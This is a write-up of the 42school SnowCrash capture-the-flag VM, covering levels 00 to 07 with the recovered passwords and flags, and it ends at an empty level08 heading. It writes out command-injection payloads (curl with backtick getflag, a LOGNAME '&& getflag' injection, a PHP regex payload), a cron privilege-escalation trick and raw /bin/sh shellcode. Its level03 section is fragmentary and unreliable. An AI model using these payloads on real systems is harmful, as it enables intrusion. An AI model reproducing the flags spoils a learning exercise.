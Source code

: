 # snow_crash
Security project of 42school


Link to the VM: https://projects.intra.42.fr/uploads/document/document/5137/SnowCrash.iso.


## Level00

Find interesting files: `find / -user flag00`.
File conraining `cdiiddwpgswtgt` founded.
Supposed to be a `Caesar Cipher`. Use [Dcode](https://www.dcode.fr/caesar-cipher).
Password is: `nottoohardhere`.
Flag is: `x24ti5gi3x0ol2eh4esiuxias`

## level01
Find interesting files: `find / -user flag01`.
Nothing founded, let's check in `/etc/passwd`.
Found:
`flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash`.
Put this onto a user.txt file and give it to `John`.
John output:
`flag01:abcdefg:3001:3001::/home/flag/flag01:/bin/bash`.    

Password is: `abcdefg`.
Flag is: `f2av5il02puano7naaf6adaaf`.

## level02

There is a `level02.pcap` file. a `.pcap` file can be opened with `wireshark` and represent a capture of some network transmissions.     
First we need to extract this file using `scp`.
`scp -q -P 2222 level02@10.64.1.226:./level02.pcap ./level02/`

Then I open the file with Wireshark, select the first packet and `Follow the TCP stream`.
Now I can see the password in plain text: `Password: ft_wandr...NDRel.L0L`.
Then I need to interpret the DEL characters and get the remaining password.

Password is: `ft_waNDReL0L`.
Flag is: `kooda2puivaav1idi4f57q8iq`.

## level03

First I download the file to inspect it localy with:
`scp -q -P 2222 level03@10.1.6.4:./level03 ./level03/`
\003\205\004\b\340\205\004\b\323\a"

\x48\xc7\xc0\x3b\x00\x00\x00\x48\xc7\xc2\x00\x00\x00\x00\x49\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x48\xc7\xc0\x3c\x00\x00\x00\x48\xc7\xc7\x00\x00\x00\x00\x0f\x05\\


0xbffff8fb
/tmp/O:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
scp -P 2222 echo.c level03@10.64.1.240:/tmp/O/
Flag is: `qi0maab88jeaj46qoumi7maus`.

## level04

There is a `level04.pl` file.
run: curl -v http://localhost:4747/?x=\`getflag\`

Flag is: `ne2searoevaevoem4ov4ar8ap`.

## level05

A message inform you that you have a new mail.
Display it with:    
`cat /var/mail/level05`
It informs you about a current cronjob:    
`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`.

Find other interesting files: `find / -user flag05`.    
Bash script founded: `/usr/sbin/openarenaserver`.    

Exploit it with:
```
    mkdir /tmp/file
    touch /tmp/file/flag
    chmod 777 /tmp/file/flag
    echo "getflag > /tmp/file/flag" > /opt/openarenaserver/file
```
Then wait for the cron to run.
You can now display the flag with `cat /tmp/file/flag`.

Flag is: `viuaaale9huek52boumoomioc`.

## level06

There is two files:
- level06.php (a php code)
- level06 (the compiled SUID version of the above)

1 - open a file and read its content.
2 - Decode the regex and execute command.

Payload: "[x ${`getflag`}]"
Flag is: `wiok45aaoguiboiki2tuin6ub`.

## level07

There is a file called `level07`.    

syscall founded:
- system
- asprintf
- getenv

strings founded:
- `/bin/echo %s`
- `LOGNAME`

1- the program use `system`.
2- the programme give it the string: `/bin/echo %s`.
3- the program get the env variable `LOGNAME` and give it to asprintf.

Payload: export LOGNAME="level07 && getflag"
Flag is: `fiumuikeil55xe9cu4dood66h`.

## level08

